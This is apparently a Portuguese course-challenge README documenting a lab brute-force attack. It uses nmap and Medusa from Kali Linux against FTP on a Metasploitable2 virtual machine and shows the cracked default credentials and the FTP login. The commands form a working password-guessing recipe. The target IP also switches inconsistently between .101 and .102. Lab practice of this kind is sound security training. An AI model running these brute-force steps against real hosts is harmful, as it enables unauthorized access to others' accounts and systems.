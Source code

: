 # Simulando um Ataque de Brute Force de Senhas com Medusa e Kali Linux.

## Visão geral
Desafio do curso de Cibersegurança 2025 da Santander com parceria DIO, com o intuito de práticar e simular ataques de força bruta e criação de wordlists em um ambiente controlado, utilizando os sistemas Kali Linux e a ferramenta Medusa para acessar o Metasploitable2 e DVWA.

---

## Verificação de ip
No Metasploitable2 que será utilizado como a máquina alvo iremos verificar o ip com o comando "ip a".

<img width="644" height="239" alt="image" src="https://github.com/user-attachments/assets/3b6471e9-e284-4381-8b16-6ff12a7dab3c" />

Obtivemos o ip “192.168.56.101” da máquina alvo.
Agora que conseguimos o ip da máquina alvo, será feito o teste de conectividade para verificar se as máquinas estão na mesma rede, com o comando.

ping -c 3 192.168.56.101

<img width="613" height="196" alt="image" src="https://github.com/user-attachments/assets/1b8b87c6-680a-4cd2-9c37-1d971ce055c2" />

---

##Verificação de portas abertas

Com as máqinas conectadas na mesma rede, iremos fazer a verificação de portas abertas da máquina alvo, com o comando.
nmap -sV -p 21,22,80,445,139 192.168.56.102
<img width="886" height="312" alt="image" src="https://github.com/user-attachments/assets/16846d38-2532-4d44-9f17-34b6a54dabe7" />

A porta que iremos atacar será a 21/tcp do serviço ftp.

---

##Criando listas de usuários e senhas + ataque com a Medusa

Com os seguintes comandos iremos criar os usuários e senhas para realizar o ataque com a Medusa.

echo -e "user\nmsfadmin\nadmin\nroot" > users.txt
echo -e "123456\npassword\nqwerty\nmsfadmin" > pass.txt

Lista de usuários e senhas criadas, agora será feito o ataque na máquina alvo com o seguinte comando.

medusa -h 192.168.56.102 -U users.txt -P pass.txt -M ftp -t 6

<img width="886" height="378" alt="image" src="https://github.com/user-attachments/assets/eb510397-cee6-46e3-bc15-321fc51bae8b" />

Senha e usuário capturadas com sucesso.

ACCOUNT FOUND: [ftp] Host: 192.168.56.101 User: msfadmin Password: msfadmin [SUCCESS]

---

##Realizando o ataque

Com os dados da senha e usuário capturados é a hora de realizar o ataque a máquina alvo através do serviço ftp, com o comando.
ftp 192.168.56.101
<img width="495" height="292" alt="image" src="https://github.com/user-attachments/assets/c5c0a67b-84d7-4ac2-83fd-e282de270355" />

Máquina alvo acessada com sucesso.

---

